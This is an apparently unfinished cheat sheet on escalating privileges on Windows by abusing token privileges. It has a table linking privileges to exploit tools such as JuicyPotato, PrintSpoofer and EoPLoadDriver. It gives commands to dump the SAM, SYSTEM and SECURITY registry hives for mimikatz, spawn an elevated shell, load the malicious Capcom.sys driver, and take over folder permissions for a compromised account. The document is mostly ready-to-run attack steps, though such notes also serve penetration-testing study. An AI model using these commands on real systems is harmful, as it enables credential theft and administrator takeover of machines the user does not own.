 Check for the following access tokens

> / / / To Finish

|Privilege|Impact|Tool|Notes|
|-|-|-|-|
|SeAssignPrimaryToken|Admin|3rd party tool| Exploit either<br /> - rottenpotato.exe <br /> - juicypotato.exe|
|SeBackup|Threat|CLI|Read sensitve files|
|SeCreateToken|Admin|3rd party tool|
|SeDebug|Admin|PowerShell|<https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Conjure-LSASS.ps1>|
|SeImpersonatePrivilege|Admin|[https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)|
|SeLoadDriver|Admin|[EoPLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver/)|
|SeRestore|Admin||
|SeTakeOwnership|Admin||
|SeTcb|Admin||

- SeBackupPrivilege:
  - reg save HKLM\SAM sam.hive
  - reg save HKLM\SYSTEM system.hive
  - reg save hklm\security security.hive

  &#8594; mimikatz

- SeImpersonatePrivilege
  &#8594; PrintSpoofer

  ```bash
  PrintSpoofer.exe -i -c powershell
  ```

  How it works is explained in details [here](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)

- SeLoadDriverPrivilege: Load malicious driver [Capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit) using [EoPLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver/)

  ```bash
  EOPLOADDRIVER.exe System\\CurrentControlSet\\MyService C:\\Users\\Username\\Desktop\\Driver.sys
  ```

- SeBackupPrivilege & SeRestorePrivilege:

  You can get yourself admin right of anyfolder

  ```powershell
  $user = "AD\Compromised User"
  $folder = "C:\InterestingFolder"
  $acl = Get-Acl $Folder
  $aclperms = $user,"FullControl","ContainerInherit,ObjectInherit","None","Allow"
  $aclrule = New-Object System.Security.AccessControl.FileSystemAccessRule $aclperms
  $acl.AddAccessRule($aclrule)
  Set-Acl -Path $Folder -AclObject $acl
  Get-Acl "C:\InterestingFolder" | fl
  ```
